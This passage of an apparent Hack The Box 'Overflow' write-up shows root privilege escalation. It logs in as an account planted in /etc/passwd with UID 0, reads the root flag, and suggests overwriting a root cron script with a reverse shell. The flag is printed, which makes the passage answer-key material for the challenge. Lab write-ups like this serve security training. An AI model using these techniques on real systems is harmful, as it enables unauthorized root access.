dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
tester:x:1000:1000:tester,,,:/home/tester:/bin/bash
postfix:x:111:116::/var/spool/postfix:/usr/sbin/nologin
mysql:x:112:118:MySQL Server,,,:/nonexistent:/bin/false
developer:x:0:0::/home/developer:/bin/sh
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
```

And we successfully change ```/etc/passwd```, Let's log in again to ```developer``` user:
```console
┌─[evyatar@parrot]─[/hackthebox/Overflow]
└──╼ $ ssh developer@overflow.htb
developer@overflow.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Apr  5 01:00:01 IST 2022

  System load:  0.02              Processes:           184
  Usage of /:   45.1% of 5.84GB   Users logged in:     0
  Memory usage: 11%               IP address for eth0: 10.10.11.119
  Swap usage:   0%


0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


-sh: 28: set: Illegal option -o history
-sh: 1: set: Illegal option -o history
# groups
root network
# ls /root
clean_sql.sh  root.txt
# cat /root/root.txt
6e47691747c2a8d5096958836f2efa13
```

As we can see we are on the ```root``` group, And we get the root flag ```6e47691747c2a8d5096958836f2efa13```.

NOTE:
We can solve it also with another method.

By reading the ```root``` mails we can see the following:
```console
$ cat /var/mail/root
From root@overflow.htb  Wed Sep 29 21:40:01 2021
Return-Path: <root@overflow.htb>
X-Original-To: root
Delivered-To: root@overflow.htb
Received: by overflow (Postfix, from userid 0)
	id 66D5B8D51; Wed, 29 Sep 2021 21:40:01 +0530 (IST)
From: root@overflow.htb (Cron Daemon)
To: root@overflow.htb
Subject: Cron <root@overflow> bash /root/clean_sql.sh
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=root>
Message-Id: <20210929161001.66D5B8D51@overflow>
Date: Wed, 29 Sep 2021 21:40:01 +0530 (IST)

mysql: [Warning] Using a password on the command line interface can be insecure.

...
```

We can see the cron job of ```root``` user ```/root/clean_sql.sh```, We can overwrite this file with a reverse shell to get a root shell.
